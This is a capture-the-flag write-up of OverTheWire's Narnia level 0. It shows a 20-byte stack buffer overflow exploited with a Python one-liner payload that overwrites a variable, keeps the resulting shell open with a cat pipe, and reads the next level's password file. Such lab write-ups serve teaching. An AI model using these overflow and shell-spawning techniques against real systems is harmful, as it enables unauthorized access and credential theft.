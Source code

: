 The above C code is the source code for the first challenge in the Narnia series of challenges offered by Overthewire.org, these challenges have been designed to have basic vulnerabilities. The goal of this challenge is to get the val varible to equal “0xdeadbeef” and if so the binary will give me a shell. The binary accepts one string input from the user and puts the string into a buffer of 20 bytes, straight away this looks like a buffer overflow vulnerability with the goal of overflowing the buffer and then overwriting the value of the varible called “val” which currently is “0x41414141” with the value of “0xdeadbeef”.

So the next step I sent a string of A’s with 4 C’s to test the vulnerability, the buffer is defined as 20 bytes in size which means if there is actually a vulnerability in the code when the binary takes the user input and places it directly into the buffer and the user input is greater then 20 bytes there should be an overflow, which is why I include 4 C’s which should overwrite the val varible.

```
narnia0@melinda:/narnia$ ./narnia0
Correct val’s value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAACCCC
buf: AAAAAAAAAAAAAAAAAAAACCCC
val: 0x43434343
WAY OFF!!!!
```

As I expected there was an overflow when I entered a string greater then 20 bytes long. Next I want to get code execution which will allow me to view the password for the next level. Since the binary should give me a shell when the val varible equals “0xdeadbeef” which means if I replace the 4 C’s to be “0xdeadbeef” I should be given a shell and then simply just be able to cat out the password file. So below I used python to create my string with the “0xdeadbeef” overwrite included which is piped into the narnia0 binary.

```
narnia0@melinda:~$ python -c'print "A"*20 + "\xef\xbe\xad\xde"' | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAï¾­Þ
val: 0xdeadbeef
```
Damn!!! I successfully overwrite the val varible with “0xdeadbeef” but I was not given a shell, this is because the shell closes straight away.

```
narnia0@melinda:~$ python -c'print "A"*20 + "\xef\xbe\xad\xde"';id | /narnia/narnia0
AAAAAAAAAAAAAAAAAAAAï¾­Þ
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: uid=14000(narnia0)
val: 0x41414141
WAY OFF!!!!
```

I added an “id” command to be executed when the shell is be given, I can see the results of the command to be “uid=14000(narnia0)” but the results was not what I expected, again the command was executed after the shell from the binary had closed. I need to work out a way to keep the shell open. After running through a series of different commands I found the “cat” command kept the shell session open.

```
narnia0@melinda:/narnia$ (python -c'print "A"*20 + "\xef\xbe\xad\xde"'; cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
whoami
narnia1
id
uid=14000(narnia0) gid=14000(narnia0) euid=14001(narnia1) groups=14001(narnia1),14000(narnia0)
cat /etc/narnia_pass/narnia1
```
